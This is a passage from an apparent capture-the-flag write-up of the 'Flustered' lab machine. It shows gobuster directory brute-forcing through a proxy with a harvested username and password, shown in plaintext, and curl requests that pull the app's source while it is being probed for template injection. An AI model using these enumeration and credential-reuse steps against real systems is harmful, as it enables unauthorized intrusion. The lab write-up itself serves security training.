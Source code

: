 ```bash
gobuster dir --proxy "http://lance.friedman:...%3D...%3C...%5E...@10.10.11.131:3128" -u http://127.0.0.1 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

gobuster dir --proxy "http://lance.friedman:...%3E...%3C...%5E...@10.10.11.131:3128" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://127.0.0.1
# /app

gobuster dir --proxy "http://lance.friedman:...%3C...%3C...%5E...@10.10.11.131:3128" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://127.0.0.1/app -x py
# --> /templates      /static     /app.py
```

<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_27.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_28.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_29.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>


If I use `curl` to send a request to the **URL** where the resource `app.py` is, I see that it is the source code of the application. Analyzing a little the code, I see that it validates if I am sending data in **json** format using **GET** or **POST**, and if so, it also validates if the `siteurl` parameter exists, the application reflects its value in the web site in case the data is received, it also informs me that it uses the **Flusk** framework, everything makes me think in a **[SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md){:target="_target"}** injection. First I validate that the output is seen in the application what I send with `curl`.

```bash
curl --proxy "http://lance.friedman:o>WJ5-jD<5^m3@10.10.11.131:3128" http://127.0.0.1/app/template
curl --proxy "http://lance.friedman:o>WJ5-jD<5^m3@10.10.11.131:3128" http://127.0.0.1/app/app.py

# --> if config and "siteurl" in config:
#         return config["siteurl"]
#         else return "steampunk-era.htb"

curl -s -X GET "http://10.10.11.131" -H "Content-type: application/json" -d '{"siteurl": "oldboy"}'
```

<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_30.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_31.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
